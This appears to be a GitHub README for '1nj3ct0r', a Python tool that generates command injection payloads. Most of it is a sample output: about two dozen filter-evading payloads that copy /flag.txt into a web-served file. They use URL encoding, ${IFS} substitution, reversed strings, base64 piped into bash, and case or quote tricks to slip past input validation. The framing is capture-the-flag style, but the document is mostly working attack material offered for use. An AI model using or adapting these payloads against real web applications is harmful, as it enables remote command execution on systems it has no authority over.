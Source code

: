 # 1nj3ct0r
This is a Command Injection payload generator made with Python 3

Example:
python3 cmd_injection_gen.py "cat /flag.txt"

[!] Generating payloads for [cat /flag.txt >> /var/www/html/filefolder/somefile.txt]
[+] Saving payloads payloads.
%3b$(a="CaT${IFS}${PATH:0:1}FlAg.tXt${IFS}>>${IFS}${PATH:0:1}vAr${PATH:0:1}wWw${PATH:0:1}hTmL${PATH:0:1}FiLeFoLdEr${PATH:0:1}sOmEfIlE.TxT"${LS_COLORS:10:1}printf${IFS}%s${IFS}"${a,,}")
%0a$(rev<<<'t\x\t\.\e\l\i\f\e\m\o\s\/\r\e\d\l\o\f\e\l\i\f\/\l\m\t\h\/\w\w\w\/\r\a\v\/\  \>\>\   \t\x\t\.\g\a\l\f\/\     \t\a\c')
%26%26bash%3C%3C%3C%24%28base64%09-d%3C%3C%3CY1xhXHRcIFwvXGZcbFxhXGdcLlx0XHhcdFwgXD5cPlwgXC9cdlxhXHJcL1x3XHdcd1wvXGhcdFxtXGxcL1xmXGlcbFxlXGZcb1xsXGRcZVxyXC9cc1xvXG1cZVxmXGlcbFxlXC5cdFx4XHQ%3D%29
$(cat${IFS}/flag.txt${IFS}>>${IFS}/var/www/html/filefolder/somefile.txt)
%7cc%24%40a%24%40t%24%40%09%24%40%2F%24%40f%24%40l%24%40a%24%40g%24%40.%24%40t%24%40x%24%40t%24%40%09%24%40%3E%24%40%3E%24%40%09%24%40%2F%24%40v%24%40a%24%40r%24%40%2F%24%40w%24%40w%24%40w%24%40%2F%24%40h%24%40t%24%40m%24%40l%24%40%2F%24%40f%24%40i%24%40l%24%40e%24%40f%24%40o%24%40l%24%40d%24%40e%24%40r%24%40%2F%24%40s%24%40o%24%40m%24%40e%24%40f%24%40i%24%40l%24%40e%24%40.%24%40t%24%40x%24%40t
%0a%24%28rev%3C%3C%3C%27t%40%24x%40%24t%40%24.%40%24e%40%24l%40%24i%40%24f%40%24e%40%24m%40%24o%40%24s%40%24/%40%24r%40%24e%40%24d%40%24l%40%24o%40%24f%40%24e%40%24l%40%24i%40%24f%40%24/%40%24l%40%24m%40%24t%40%24h%40%24/%40%24w%40%24w%40%24w%40%24/%40%24r%40%24a%40%24v%40%24/%40%24%20%40%24%3E%40%24%3E%40%24%20%40%24t%40%24x%40%24t%40%24.%40%24g%40%24a%40%24l%40%24f%40%24/%40%24%20%40%24t%40%24a%40%24c%27%29
%3bbash<<<$(base64${IFS}-d<<<Y2F0IC9mbGFnLnR4dCA+PiAvdmFyL3d3dy9odG1sL2ZpbGVmb2xkZXIvc29tZWZpbGUudHh0)
%26c'a't${IFS}${PATH:0:1}f'l'ag.t'x't${IFS}>>${IFS}${PATH:0:1}v'a'r${PATH:0:1}'w''w''w'${PATH:0:1}h't'ml${PATH:0:1}f'i'lefolder${PATH:0:1}s'o'mefile.t'x't
%26bash%3C%3C%3C%24%28base64+-d%3C%3C%3CY2F0IC9mbGFnLnR4dCA%2BPiAvdmFyL3d3dy9odG1sL2ZpbGVmb2xkZXIvc29tZWZpbGUudHh0%29
%0a%7Bcat%2C%2Fflag.txt%2C%3E%3E%2C%2Fvar%2Fwww%2Fhtml%2Ffilefolder%2Fsomefile.txt%7D
%24%28c%24%40a%24%40t%24%40%20%24%40/%24%40f%24%40l%24%40a%24%40g%24%40.%24%40t%24%40x%24%40t%24%40%20%24%40%3E%24%40%3E%24%40%20%24%40/%24%40v%24%40a%24%40r%24%40/%24%40w%24%40w%24%40w%24%40/%24%40h%24%40t%24%40m%24%40l%24%40/%24%40f%24%40i%24%40l%24%40e%24%40f%24%40o%24%40l%24%40d%24%40e%24%40r%24%40/%24%40s%24%40o%24%40m%24%40e%24%40f%24%40i%24%40l%24%40e%24%40.%24%40t%24%40x%24%40t%29
%0a$(cat        /flag.txt       >>      /var/www/html/filefolder/somefile.txt)
%24%28c%5Ca%5Ct%5C%20%5C/%5Cf%5Cl%5Ca%5Cg%5C.%5Ct%5Cx%5Ct%5C%20%5C%3E%5C%3E%5C%20%5C/%5Cv%5Ca%5Cr%5C/%5Cw%5Cw%5Cw%5C/%5Ch%5Ct%5Cm%5Cl%5C/%5Cf%5Ci%5Cl%5Ce%5Cf%5Co%5Cl%5Cd%5Ce%5Cr%5C/%5Cs%5Co%5Cm%5Ce%5Cf%5Ci%5Cl%5Ce%5C.%5Ct%5Cx%5Ct%29
%7cc%5Ca%5Ct%5C%09%5C/%5Cf%5Cl%5Ca%5Cg%5C.%5Ct%5Cx%5Ct%5C%09%5C%3E%5C%3E%5C%09%5C/%5Cv%5Ca%5Cr%5C/%5Cw%5Cw%5Cw%5C/%5Ch%5Ct%5Cm%5Cl%5C/%5Cf%5Ci%5Cl%5Ce%5Cf%5Co%5Cl%5Cd%5Ce%5Cr%5C/%5Cs%5Co%5Cm%5Ce%5Cf%5Ci%5Cl%5Ce%5C.%5Ct%5Cx%5Ct
-azertyuiopmlkjhgfdsqwxcbn0123456789%7c%7cbash<<<$(base64 -d<<<YyRAYSRAdCRAICRALyRAZiRAbCRAYSRAZyRALiRAdCRAeCRAdCRAICRAPiRAPiRAICRALyRAdiRAYSRAciRALyRAdyRAdyRAdyRALyRAaCRAdCRAbSRAbCRALyRAZiRAaSRAbCRAZSRAZiRAbyRAbCRAZCRAZSRAciRALyRAcyRAbyRAbSRAZSRAZiRAaSRAbCRAZSRALiRAdCRAeCRAdA==)
-azertyuiopmlkjhgfdsqwxcbn0123456789%7c%7c$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"CaT${IFS}${PATH:0:1}FlAg.tXt${IFS}>>${IFS}${PATH:0:1}vAr${PATH:0:1}wWw${PATH:0:1}hTmL${PATH:0:1}FiLeFoLdEr${PATH:0:1}sOmEfIlE.TxT")
%26%26$(a="CaT${IFS}/fLaG.TxT${IFS}>>${IFS}/VaR/WwW/HtMl/fIlEfOlDeR/SoMeFiLe.tXt";printf${IFS}%s${IFS}"${a,,}")
%0a%24%28tr%24%7BIFS%7D%22%5BA-Z%5D%22%24%7BIFS%7D%22%5Ba-z%5D%22%3C%3C%3C%22CaT%24%7BIFS%7D/FlAg.tXt%24%7BIFS%7D%3E%3E%24%7BIFS%7D/vAr/wWw/hTmL/FiLeFoLdEr/sOmEfIlE.TxT%22%29
%3b$(rev<<<'t@$x@$t@$.@$e@$l@$i@$f@$e@$m@$o@$s@$${PATH:0:1}@$r@$e@$d@$l@$o@$f@$e@$l@$i@$f@$${PATH:0:1}@$l@$m@$t@$h@$${PATH:0:1}@$w@$w@$w@$${PATH:0:1}@$r@$a@$v@$${PATH:0:1}@$ @$>@$>@$ @$t@$x@$t@$.@$g@$a@$l@$f@$${PATH:0:1}@$ @$t@$a@$c')
%0ac$@a$@t$@    $@/$@f$@l$@a$@g$@.$@t$@x$@t$@   $@>$@>$@        $@/$@v$@a$@r$@/$@w$@w$@w$@/$@h$@t$@m$@l$@/$@f$@i$@l$@e$@f$@o$@l$@d$@e$@r$@/$@s$@o$@m$@e$@f$@i$@l$@e$@.$@t$@x$@t
%7cbash<<<$(base64${IFS}-d<<<Y1xhXHRcIFwvXGZcbFxhXGdcLlx0XHhcdFwgXD5cPlwgXC9cdlxhXHJcL1x3XHdcd1wvXGhcdFxtXGxcL1xmXGlcbFxlXGZcb1xsXGRcZVxyXC9cc1xvXG1cZVxmXGlcbFxlXC5cdFx4XHQ=)
%26%26c%22a%22t+%2Ff%22l%22ag.t%22x%22t+%3E%3E+%2Fv%22a%22r%2F%22w%22%22w%22%22w%22%2Fh%22t%22ml%2Ff%22i%22lefolder%2Fs%22o%22mefile.t%22x%22t
%26%26%24%28rev%3C%3C%3C%27t%40%24x%40%24t%40%24.%40%24e%40%24l%40%24i%40%24f%40%24e%40%24m%40%24o%40%24s%40%24/%40%24r%40%24e%40%24d%40%24l%40%24o%40%24f%40%24e%40%24l%40%24i%40%24f%40%24/%40%24l%40%24m%40%24t%40%24h%40%24/%40%24w%40%24w%40%24w%40%24/%40%24r%40%24a%40%24v%40%24/%40%24%20%40%24%3E%40%24%3E%40%24%20%40%24t%40%24x%40%24t%40%24.%40%24g%40%24a%40%24l%40%24f%40%24/%40%24%20%40%24t%40%24a%40%24c%27%29
